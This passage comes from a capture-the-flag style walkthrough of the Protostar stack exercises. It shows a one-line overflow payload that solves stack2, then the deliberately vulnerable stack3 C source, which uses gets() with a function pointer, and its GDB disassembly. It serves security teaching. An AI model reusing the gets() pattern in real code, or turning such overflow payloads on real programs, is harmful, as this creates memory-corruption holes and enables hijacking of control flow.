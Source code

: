 ```shell
user@protostar:~$ GREENIE=`python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'"` /opt/protostar/bin/stack2
you have correctly modified the variable
```

# stack 3

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Our goal here is to execute the `win()` function.

We open up the `stack3` binary in GDB.

```shell
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   %ebp
0x08048439 <main+1>:    mov    %esp,%ebp
0x0804843b <main+3>:    and    $0xfffffff0,%esp
0x0804843e <main+6>:    sub    $0x60,%esp
0x08048441 <main+9>:    movl   $0x0,0x5c(%esp)
0x08048449 <main+17>:   lea    0x1c(%esp),%eax
0x0804844d <main+21>:   mov    %eax,(%esp)
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmpl   $0x0,0x5c(%esp)
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    $0x8048560,%eax
0x08048461 <main+41>:   mov    0x5c(%esp),%edx
0x08048465 <main+45>:   mov    %edx,0x4(%esp)
0x08048469 <main+49>:   mov    %eax,(%esp)
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    0x5c(%esp),%eax
0x08048475 <main+61>:   call   *%eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
End of assembler dump.
```


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/